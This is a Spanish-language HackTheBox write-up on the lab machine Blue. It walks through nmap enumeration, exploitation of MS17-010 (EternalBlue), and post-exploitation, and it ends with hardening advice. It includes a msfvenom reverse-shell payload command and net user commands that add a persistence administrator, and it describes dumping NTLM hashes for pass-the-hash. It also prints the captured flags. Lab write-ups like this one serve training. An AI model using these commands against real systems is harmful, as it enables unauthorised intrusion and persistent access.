 ```yaml
---
title: HackTheBox Blue
date: 2021-08-28 12:00:00 -0400
image:
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/banner.jpeg
  height: 1100
  width: 500
categories: [HTB Writeups, Windows Easy]
tags: [eternalblue, metasploit, smb]
---
```



## Enumeración

**System IP: 10.10.10.40**

### Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![Matriz de la maquina](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/matrix.png)


**Enumeración de servicios**

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|-----------------------------
10.10.10.40       | **TCP**: 135,139,445,49154 

**Nmap Scan Resultados:**

Usando el siguiente comando para enumerar las versiones y servicios que corren en cada puerto luego de hacer un escaneo de puertos abiertos.

```bash
nmap -sC -sV -p135,139,445,49154 10.10.10.40 -Pn  
```

Nos arroja este resultado:

```bash
nmap -sC -sV -p135,139,445,49154 10.10.10.40 -Pn                                                                                                               
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 15:02 EDT
Nmap scan report for 10.10.10.40
Host is up (0.17s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49154/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m38s, deviation: 34m35s, median: 19s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-01T20:03:27+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-01T19:03:24
|_  start_date: 2021-08-01T16:10:04

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.87 seconds

```
**Enumerando vulnerabilidades con nmap**

Usando el siguiente comando para enumerar las vulnerabilidades más comunes que presentan cada servicio, si es que existen.

```bash
nmap --script vuln 10.10.10.40
```

Nos arroja este resultado:

```bash                    
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-01 16:24 EDT
Nmap scan report for 10.10.10.40
Host is up (0.29s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 147.18 seconds

```

## Identificación de vulnerabilidades

Explicación de vulnerabilidad:

Segun los resultados de nmap podemos observar que es vulnerable a ejecución remota de codigo, revisando el cve en google encontramos el exploit para esta vulnerabilidad.

Severidad:

![Escala de severidad](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/sever.png)

Codigo de la prueba de concepto:

A continuación se presente el codigo de la prueba de concepto: 

![Codigo de la prueba de concepto](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/web.png)

## Acceso al sistema

Para poder acceder al sistema elaboramos un payload que se ejecutará en la maquina victima, lo elaboramos con el siguiente comando con msfvenom y lo guardamos con el nombre shell.exe.

```bash
msfvenom -p windows/reverse_shell_tcp lhost=tun0 lport=443 -f exe > shell.exe
```


![Cambiando los comandos a ejecutar](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/msf.png)


Modificando el exploit para crear un usuario guest.


![Modificando el usuario y contraseña](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/guest.png)


Estableciendo los comandos a ejecutar, en este caso enviamos el archivo compilado en formato .exe y ejecutamos el payload generado en la maquina victima.



![Comandos que permiten el envio del payload](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/eternal.png)



Luego de haber ejecutaco el exploit obtenemos una shell con maximos privilegios (nt/ authority system), entonces podemos observar el user.txt y root.txt.



![Prueba de acceso como administrador](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/auto.png)



**Prueba de obtención del user.txt**

flag: 4c546aea7dbee75cbd71de245c8deea9



![Prueba del User.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/usertxt.png)



## Escalamiento de privilegios

Al haber obtenido acceso como usuario de maximos privilegios con el exploit ejecutado, esta fase se omitirá

**Prueba de obtención del root.txt**

flag: ff548eb71e920ff6c08843ce9df4e717



![Prueba del root.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/roottxt.png)



## Tecnicas Post-explotación

**Agregando usuarios con permisos de administrador**

+ Podemos crear usuarios con permisos de administrador con el siguiente comando:

```bash
net user usuario 12345 /add
```

  y asignarlos a un grupo el cual sería administrador con el siguiente comando:

```bash
net localgroup administrator usuario /add
```


![Creando usuario de persistencia](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/ADD.png)



**Dumpeando los hashes de los usuarios para acceder al sistema posteriormente con la tecnica de passthehash.**

+ Una vez con el acceso de administrador podemos modificar el UAC para obtener los hashes ntlm de los administradores con crackmapexec y así poder logearnos como administradores solo con el ntlm hash.



![Modificando el token policie](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/token.png)





![Dumpeando los hashes de los usuarios](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/blue/cme.png)



## Tecnicas de Hardening

+ Mantener siempre el software y las ventanas actualizadas con la última versión, las correcciones y los parches para reducir el riesgo de ser comprometido por tales vulnerabilidades.

+ Deshabilitar el servicio SMBV1 del puerto 445 de la maquina o establecer reglas de firewalls para ocultarlo.

Gracias por leer, Happy hacking and always try harder!